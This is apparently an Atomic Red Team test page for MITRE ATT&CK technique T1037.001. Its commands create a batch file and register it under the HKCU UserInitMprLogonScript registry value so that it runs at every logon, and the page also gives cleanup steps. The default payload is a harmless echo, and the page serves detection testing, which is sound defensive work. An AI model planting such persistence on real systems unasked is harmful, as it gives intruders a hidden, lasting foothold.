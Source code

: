 # T1037.001 - Logon Script (Windows)
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1037/001)
<blockquote>Adversaries may use Windows logon scripts automatically executed at logon initialization to establish persistence. Windows allows logon scripts to be run whenever a specific user or group of users log into a system.(Citation: TechNet Logon Scripts) This is done via adding a path to a script to the <code>HKCU\Environment\UserInitMprLogonScript</code> Registry key.(Citation: Hexacorn Logon Scripts)

Adversaries may use these scripts to maintain persistence on a single system. Depending on the access configuration of the logon scripts, either local credentials or an administrator account may be necessary. </blockquote>

## Atomic Tests

- [Atomic Test #1 - Logon Scripts](#atomic-test-1---logon-scripts)


<br/>

## Atomic Test #1 - Logon Scripts
Adds a registry value to run batch script created in the %temp% directory. Upon execution, there will be a new environment variable in the HKCU\Environment key
that can be viewed in the Registry Editor.

**Supported Platforms:** Windows


**auto_generated_guid:** d6042746-07d4-4c92-9ad8-e644c114a231





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| script_path | Path to .bat file | String | %temp%&#92;art.bat|
| script_command | Command To Execute | String | echo Art "Logon Script" atomic test was successful. >> %USERPROFILE%&#92;desktop&#92;T1037.001-log.txt|


#### Attack Commands: Run with `command_prompt`! 


```cmd
echo "#{script_command}" > #{script_path}
REG.exe ADD HKCU\Environment /v UserInitMprLogonScript /t REG_SZ /d "#{script_path}" /f
```

#### Cleanup Commands:
```cmd
REG.exe DELETE HKCU\Environment /v UserInitMprLogonScript /f >nul 2>&1
del #{script_path} >nul 2>&1
del "%USERPROFILE%\desktop\T1037.001-log.txt" >nul 2>&1
```





<br/>

